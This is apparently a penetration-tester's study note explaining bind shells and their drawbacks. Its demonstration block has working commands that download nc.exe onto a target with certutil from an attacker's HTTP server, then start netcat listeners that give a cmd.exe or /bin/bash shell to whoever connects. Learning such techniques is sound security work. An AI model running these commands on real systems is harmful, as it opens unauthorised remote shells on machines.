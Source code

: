 ```yaml
---
up: "[[Shells]]"
---
```


# Bind Shells

- Type of remote shell where the attacker connects directly to a listener on a target system.
- A netcat listener can be setup to execute a specific executable when a client connects

- Bind shells have many cons:
	- It needs to be setup on the target first (need access to it)
	- Firewall will typically block our connection as it is suspicious

## Demonstration

```bash
# transfer nc.exe
$ cd /usr/share/windows-binaries
$ python -m SimpleHTTPServer 80
...
# get exe
>certutil -urlcache -f http://<ip>/<exe> <exe>
# setup listener with exe
>nc.exe -lvnp 1234 -e cmd.exe
# connect
$ nc -nv <ip> <port>
# listener for linux
$ nc -lvnp <port> -c /bin/bash
# connect to
>nc.exe -nv <ip> <port>
```
